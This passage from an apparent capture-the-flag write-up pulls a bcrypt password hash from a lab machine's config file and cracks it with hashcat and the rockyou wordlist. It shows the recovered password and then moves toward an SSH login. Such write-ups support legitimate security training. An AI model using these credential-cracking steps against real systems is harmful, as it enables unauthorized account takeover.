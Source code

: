 ```js
"forceLogout": false,
"forceHttps": false,
"saveChangesPopup": false,
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

We found a password hash lets move it into a file that will contain all of our hashes for this box. **Remove the escape \\**

```bash
echo "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q" > sea_hashes
```

We can use https://hashes.com/en/tools/hash_identifier to identify the hash.

The next step is to use hashcat is order to crack the password.

```bash
hashcat -a 0 -m 3200 sea_hashes /usr/share/wordlists/rockyou.txt  
```

```bash 
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Wed Apr 23 08:24:17 2025 (39 secs)
Time.Estimated...: Wed Apr 23 08:24:56 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       80 H/s (6.38ms) @ Accel:6 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3060/14344385 (0.02%)
Rejected.........: 0/3060 (0.00%)
Restore.Point....: 3024/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: iamcool -> memories
Hardware.Mon.#1..: Util: 72%
```

We cracked it :rocket: password is `mychemicalromance`

Let's try to connect via ssh to the target machine as one of the users we found

![picture alt](assets/amay_ssh.png)
